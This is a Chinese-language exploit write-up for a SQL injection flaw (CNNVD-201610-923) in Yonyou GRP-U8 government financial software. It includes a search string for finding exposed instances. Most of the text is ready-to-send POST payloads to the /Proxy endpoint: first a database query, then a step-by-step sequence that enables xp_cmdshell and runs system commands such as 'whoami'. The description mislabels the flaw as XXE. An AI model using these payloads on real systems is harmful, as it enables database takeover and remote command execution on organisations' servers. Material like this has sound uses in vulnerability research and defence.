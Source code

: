 # 用友 GRP-U8 Proxy SQL注入 CNNVD-201610-923

## 漏洞描述

用友GRP-u8存在XXE漏洞，该漏洞源于应用程序解析XML输入时没有进制外部实体的加载，导致可加载外部SQL语句，以及命令执行

## 影响版本

<a-checkbox checked>用友GRP-U8行政事业内控管理软件（新政府会计制度专版）</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="用友GRP-U8行政事业内控管理软件"</a-checkbox></br>

## 漏洞复现

漏洞利用POC请求包

```xml
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;) Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION> <NAME>AS_DataRequest</NAME><PARAMS><PARAM> <NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM> <NAME>Data</NAME><DATA format="text">select @@version</DATA></PARAM></PARAMS> </R9FUNCTION></R9PACKET>
```

请求后按F12查看源代码可以得到SQL语句查询结果



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-1.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-2.png)



也可以调用 `xp_cmdshell` 来执行系统命令(大部分此系统为`windows`)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-3.png)

<a-checkbox checked>注意：大部分默认是不开启 xp_cmdshell 模块的</a-checkbox></br>



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-4.png)



可以使用如下方法打开`xp_cmdshell方法`

将如下POST数据按顺序发送(`注意 master 改为当前数据库名`)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">use master</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'show advanced options',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'xp_cmdshell',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

再发送以下数据可成功使用(也可能失败)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

<a-checkbox checked>执行过程中报错 java.sql.SQLException【错误代码: 0; 相关信息:xxxxxx】不用理会</a-checkbox></br>

发送请求后再使用此模块则会成功请求执行系统命令
